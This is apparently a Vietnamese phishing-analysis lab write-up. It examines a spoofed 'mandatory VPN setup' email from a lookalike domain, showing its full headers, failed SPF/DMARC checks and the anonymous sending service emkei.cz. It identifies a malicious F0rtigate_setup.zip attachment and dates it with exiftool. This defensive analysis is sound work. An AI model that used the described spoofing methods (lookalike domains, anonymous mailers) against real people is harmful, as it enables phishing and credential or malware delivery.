
Sử dụng công cụ [sublime.security](https://analyzer.sublime.security/?id=1375151d-eaf0-46df-9bec-253c36812a37) để phân tích.


Email giả mạo có đuôi là: ablnnovations.com điều này khác với email của công ty. 
Xem emal

Sử dụng emkei.cz để tạo email phishing 
```
ARC-Seal: i=1; a=rsa-sha256; d=ablnnovations.com; s=arc-20180730; t=1724056931;
	cv=none; b=CaZxt7/F6HJWE79O+N878sxrpMFOKkhuT5kGO1haDj2/P9TJ1OupxBf5XkZG
	 GYrusML3SwCBjeHOB+0ko1WBckOLDi6jX1PZ5vDlZ7pwlOihLohUJxDdalDvKWL1N5Ftds
	 rjciWQkT6Bx6Ze3cJTNXAixyajhm5ceVpSrf8bAT2tzW/djr7PhC/mXCifYvnb4kJWiwm+
	 Ih2sTNEjgP5CtcAkU3s1ZspgNKXZTOGprcwEAw4+v5dlafkkhQr9waWGDlXwHHteZ3Wcgl
	 SBi+DlKHFwdxWisDXwuGRcGiM6xvtakwfbH4v5ypF4qU4b6C9GLMtOTTNbePlTqwqLyEZ6
	 FQ==
ARC-Message-Signature: i=1; a=rsa-sha256; d=ablnnovations.com; s=arc-20180730;
	t=1724056931; c=relaxed/relaxed;
	bh=7PtB6NXLGy2xWvqeBhoHsCTmvBA1hbHAcWaawySrJGY=;
	h=to:subject:from:message-id:date; b=bH9oUT4k71iRhpxNEKH59g49WgD55Qisc+
	 2mJ50oD0U5THIMieTQKOuBPZd1BEdUIfYPKV1eLmu3rdVUIBFDTZ4gSGzzvY58YDMP+dF9
	 Tk5QEErUczVAOU+07vPFofjwj+hMcIL+dn6ZpcdKaI6oepTtWZj/hOJqWq+A79K1AAppDz
	 8AkLNHqFOYL1XXeQNnm1gX0lgIMY3KEA5VJ+NTPNbtxguNxUvvL5wwHTke7sKugdymK0li
	 nAv3djkuIDGX5cnL1JWgAHkyA+A6fCXfnj/9g6ekw8mi8icx0COaZ10tkuETrYr+UiMh/4
	 s0n0kMxZ5aogZYavEkLSXyt+WRoQ==
ARC-Authentication-Results: i=1; mx.ablnnovations.com; 
  spf=softfail (mx.ablnnovations.com: domain of transitioning peterzhang_abinmo@ablnnovations.com does not designate 202.164.39.146 as permitted sender) smtp.mailfrom=peterzhang_abinmo@ablnnovations.com;
  dmarc=fail (p=NONE sp=NONE dis=NONE) header.from=ablnnovations.com
Return-Path: <sn1@pmee.com>
X-Suspicious-Sender: yes
Received-SPF: softfail (mx.ablnnovations.com: domain of transitioning peterzhang_abinmo@ablnnovations.com does not designate 202.164.39.146 as permitted sender)
  client-ip=202.164.39.146; x-iptype=default;
Authentication-Results: mx.ablnnovations.com;
  spf=softfail (mx.ablnnovations.com: domain of transitioning peterzhang_abinmo@ablnnovations.com does not designate 202.164.39.146 as permitted sender) smtp.mailfrom=peterzhang_abinmo@ablnnovations.com;
  dmarc=fail (p=NONE sp=NONE dis=NONE) header.from=ablnnovations.com
X-ABI-ESV: wl+n+6J4p63TbXml7BwdpN34M60njAg/FAUwKBwBjg==
X-Session-IP: 202.164.39.146
X-Encrypted-Archive: yes
Received: from emkei.cz (emkei.cz [202.164.39.146])
  by crcvmail201.nm.ablnnovations.com with ESMTP id 1-x7zb82R7OvbNm-OHy3iQ
  for <alicewong_abinno@abinnovations.com>
  (version=TLSv1.3 cipher=TLS_AES_256_GCM_SHA384);
  Mon, 19 Aug 2024 08:42:11 -0000
Received: by emkei.cz (Postfix, from userid 33)
	id 0BD2716D3; Mon, 19 Aug 2024 10:42:06 +0200 (CEST)
To: alicewong_abinno@abinnovations.com
Subject: [Urgent] Mandatory VPN Setup for Secure Access to Company Resources
From: "Peter Zhang" <peterzhang_abinmo@ablnnovations.com>
X-Priority: 1 (Highest)
Importance: High
Errors-To: sn1@pmee.com
Reply-To: sn1@pmee.com
MIME-version: 1.0
Content-Type: multipart/mixed; boundary=BOUND_66C3055E07AC19.68391213
Message-Id: <20240819084206.0BD2716D3@emkei.cz>
Date: Mon, 19 Aug 2024 10:42:06 +0200 (CEST)

--BOUND_66C3055E07AC19.68391213
Content-Type: text/html; charset=utf-8
Content-Transfer-Encoding: base64
```
**202.164.39.146** sử dụng Emkei.cz (một công cụ trực tuyến cho phép  gửi email ẩn danh) người gửi **peterzhang_abinmo@ablnnovations.com**. Trong email chứa file độc hại là **F0rtigate_setup.zip**. 

Sử dụng công cụ exiftool để kiểm tra xem file độc hại 


file được tạo vào **2024:08:19 16:36:42**